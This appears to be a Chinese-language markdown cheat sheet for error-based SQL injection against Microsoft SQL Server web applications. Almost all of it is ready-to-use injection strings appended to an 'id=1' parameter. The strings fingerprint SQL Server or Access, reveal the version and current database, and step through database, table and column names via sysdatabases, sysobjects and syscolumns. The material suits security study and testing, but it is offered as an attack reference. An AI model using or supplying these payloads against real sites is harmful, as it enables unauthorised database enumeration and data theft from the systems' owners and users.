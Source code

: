 * **判断数据库**
  * and （select count（*） from sysobjects）>0 注入后页面返回正常，则是sqlserver数据库
  * and （select count（*） from msysobjects）>0 注入后页面返回正常，则是access数据库

### 【显错注入】

* **探测漏洞信息**
  * id=1 and 1=(select @@version) 数据库版本
  * id=1 and 1=(select db_name()) 当前使用的数据库

* **列数据库名称**
  * 获取第一个用户数据库名，dbid为数据库在sqlserver中的id，一般前4个为系统自带的数据库
  ```sql
  and 1=(select top 1 name from master..sysdatabases where dbid>4) 
  ```
  
  * 当列出第一个数据库名后可以 
  ```sql
  and 1=(select top 1 name from master..sysdatabases where dbid>4 and name <> 'test') 
  ```
  列出除去查出来的数据库名
  
  * 列出所有数据库名
  ```sql
  and 1=(select name from master..databases for xml path) 
  ```
  
* **列表名**
  * 获取第一张表
  ```sql
  id=1 and 1=(select top 1 name from sysobjects where xtype='u') 
  ```
  
  * 获取第二张表
  ```sql
  id=1 and 1=(select top 1 name from sysobjects where xtype='U' and name <> '之前查过的表名')
  ```
  
  * 列出所有表名
  ```sql
  id=1 and 1=(select name from sysobjects where xtype='u' for xml path) 
  ```
  
* **列表的列名(假设获取users列名)**
  * 获取第一列列名
  ```sql
  id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users'))
  ```
  
  * 获取第二列列名
  ```sql
  id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users') and name <> '之前查过的列名')
  ```
  
  * 列出所有列名
  ```sql
  id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users') for xml path) 
  ```
  
